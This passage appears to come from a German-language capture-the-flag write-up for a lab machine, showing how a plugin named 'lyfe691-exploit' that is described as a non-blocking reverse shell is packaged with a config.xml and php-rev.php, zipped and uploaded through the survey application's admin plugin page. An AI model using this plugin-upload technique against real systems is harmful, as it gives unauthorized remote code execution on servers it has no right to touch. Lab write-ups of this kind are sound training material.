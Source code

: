 PLugin Metadaten (config.xml):

```xml
cat > config.xml <<'EOF'
<?xml version="1.0" encoding="UTF-8"?>
<config>
  <metadata>
    <name>lyfe691-exploit</name>
    <type>plugin</type>
    <author>lyfe691</author>
    <version>1.0</version>
    <description>non-blocking reverse shell plugin</description>
    <license>GPLv3</license>
  </metadata>

  <files>
    <file>php-rev.php</file>
  </files>

  <compatibility>
    <version>6.0</version>
    <version>6.1</version>
    <version>6.6</version>
  </compatibility>
</config>
EOF
```

Zip archive erstellen damit wir es hochladen kann:

```bash
zip lyfe691-exploit.zip php-rev.php config.xml
```

#### 2. Plugin hochladen und aktivieren

Im Web-Interface unter http://take‑survey.heal.htb/admin:

    Configuration -> Plugins

    Auf auf Upload & install gecklickt -> lyfe691-exploit.zip ausgewählt

    Installieren:
